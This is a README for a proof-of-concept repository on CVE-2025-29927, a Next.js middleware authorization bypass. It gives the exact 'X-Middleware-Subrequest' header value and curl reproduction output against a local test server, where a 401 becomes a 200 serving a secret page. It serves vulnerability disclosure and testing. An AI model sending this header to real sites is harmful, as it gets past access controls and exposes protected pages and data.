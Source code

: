 # Next.js POC for CVE-2025-29927 

- [Authorization Bypass in Next.js Middleware · CVE-2025-29927 · GitHub Advisory Database](https://github.com/advisories/GHSA-f82v-jwr5-mffw)
- [Next.js and the corrupt middleware: the authorizing artifact - zhero_web_security](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)- 

## What is this?

This vulnerability allow to bypass middleware logics.

[src/middleware.ts](src/middleware.ts):
```ts
// always block any request
export function middleware() {
  return Response.json(
    { success: false, message: 'authentication failed' },
    { status: 401 }
  )
}
```

## Reproduce Steps

0. setup the environment

```bash
$ npm ci
$ npm exec next -- --version
Next.js v15.2.2
````

1. Run Server

```bash
$ npm run dev
```

2. Test middleware works

```
curl -v http://localhost:3000/
* Host localhost:3000 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:3000...
* Connected to localhost (::1) port 3000
> GET / HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/8.7.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< content-type: application/json
< Vary: Accept-Encoding
< Date: Sun, 23 Mar 2025 08:24:13 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{"success":false,"message":"authentication failed"}%
```

3. Bypass middleware using CVE-2025-29927

Add Header `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware` to the request

```
curl -v http://localhost:3000/ -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
* Host localhost:3000 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:3000...
* Connected to localhost (::1) port 3000
> GET / HTTP/1.1
> Host: localhost:3000
> User-Agent: curl/8.7.1
> Accept: */*
> X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
>
* Request completely sent off
< HTTP/1.1 200 OK
< Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
< link: </_next/static/media/569ce4b8f30dc480-s.p.woff2>; rel=preload; as="font"; crossorigin=""; type="font/woff2", </_next/static/media/93f479601ee12b01-s.p.woff2>; rel=preload; as="font"; crossorigin=""; type="font/woff2", </_next/static/css/app/layout.css?v=1742718989736>; rel=preload; as="style"
< Cache-Control: no-store, must-revalidate
< X-Powered-By: Next.js
< Content-Type: text/html; charset=utf-8
< Date: Sun, 23 Mar 2025 08:36:29 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
<!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/app/layout.css?v=1742718989736" data-precedence="next_static/css/app/layout.css"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack.js?v=1742718989736"/><script src="/_next/static/chunks/main-app.js?v=1742718989736" async=""></script><script src="/_next/static/chunks/app-pages-internals.js" async=""></script><meta name="next-size-adjust" content=""/><title>Create Next App</title><meta name="description" content="Generated by create next app"/><link rel="icon" href="/favicon.ico" type="image/x-icon" sizes="16x16"/><script src="/_next/static/chunks/polyfills.js" noModule=""></script></head><body class="__variable_4d318d __variable_ea5f4b antialiased"><h1>Secret Page</h1><!--$--><!--/$--><!--$--><!--/$--><script src="/_next/static/chunks/webpack.js?v=1742718989736" async=""></script><script>(self.__next_f=self.__next_f||[]).push([0])</script><script>self.__next_f.push([1 ....
```
